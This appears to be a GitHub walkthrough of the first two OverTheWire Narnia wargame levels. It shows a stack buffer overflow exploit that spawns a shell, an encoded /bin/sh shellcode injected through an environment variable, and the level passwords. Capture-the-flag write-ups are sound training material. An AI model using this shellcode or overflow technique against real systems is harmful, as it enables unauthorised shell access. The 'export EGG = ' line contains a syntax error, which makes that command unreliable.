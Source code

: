 
# OverTheWire

OverTheWire's challenges walkthrogh.

Table of contents:
1. [Narnia](#Narnia)

## Narnia
### level 0->1
We can connect using secure 
shell to the server with narnia0 as the 
user and narnia0 as the password. After we logged 
in we can see two files narnia0 and narnia0.c .

*narnia0.c*
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    return 0;
}
```
From the code we can see that there is buffer
that gets from the standard input 24 bytes while
the buffer is only contains 20 bytes of space. before
that buffer we can see that the program declered variable
that contains 4 bytes so on the stack we can overwrite
this variable by send to the standard input 24 bytes.
Important thing we need to notice is that the scanf
function takes string and we need to change 0x41414141 to 0xdeadbeed
so we need to provide the standard input the string
presentation of 0xdeadbeef in hex. 

We can do it by write in the bash:
```
echo -e '\xef\xbe\xad\xde'
```
So the exploit will be:
```
(echo -e 'AAAABBBBCCCCEEEEFFFF\xef\xbe\xad\xde'; cat;) | ./narnia0
```
The password for the next level is: eaa6AjYMBB

### level 1->2

*narnia1.c*
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
If we take a look at the source code we can see that first we check if the env var called "EGG" is exist on the machine if it is not we print something, if it is we can see that we take the string that the "EGG" env contains, put it in ret pointer and trying to execute it.

Lets look at the assembly for a sec to understand how it executes the string that EGG contains.
```asm
Dump of assembler code for function main:
   0x08049196 <+0>:     push   %ebp
   0x08049197 <+1>:     mov    %esp,%ebp
   0x08049199 <+3>:     sub    $0x4,%esp
   0x0804919c <+6>:     push   $0x804a008
   0x080491a1 <+11>:    call   0x8049050 <getenv@plt>
   0x080491a6 <+16>:    add    $0x4,%esp
   0x080491a9 <+19>:    test   %eax,%eax
   0x080491ab <+21>:    jne    0x80491c1 <main+43>
   0x080491ad <+23>:    push   $0x804a00c
   0x080491b2 <+28>:    call   0x8049060 <puts@plt>
   0x080491b7 <+33>:    add    $0x4,%esp
   0x080491ba <+36>:    push   $0x1
   0x080491bc <+38>:    call   0x8049070 <exit@plt>
   0x080491c1 <+43>:    push   $0x804a041
   0x080491c6 <+48>:    call   0x8049060 <puts@plt>
   0x080491cb <+53>:    add    $0x4,%esp
   0x080491ce <+56>:    push   $0x804a008
   0x080491d3 <+61>:    call   0x8049050 <getenv@plt>
   0x080491d8 <+66>:    add    $0x4,%esp
   0x080491db <+69>:    mov    %eax,-0x4(%ebp)
   0x080491de <+72>:    mov    -0x4(%ebp),%eax
   0x080491e1 <+75>:    call   *%eax
   0x080491e3 <+77>:    mov    $0x0,%eax
   0x080491e8 <+82>:    leave  
   0x080491e9 <+83>:    ret    
End of assembler dump.
```
The intresting lines are 61-77 we can clearly see that it calls getenv(), after that it makes space on the stack and finally calls the function that eax points to(getenv() returns a pointer to a string).
So all we need to to is to put in EGG a shellcode that execute "/bin/sh".
after I have tries some shellcodes this one worked: "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"

The final exploit will be:
```
export EGG = $(echo -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
```
```
./narnia1
```
The password for the next level is: Zzb6MIyceT










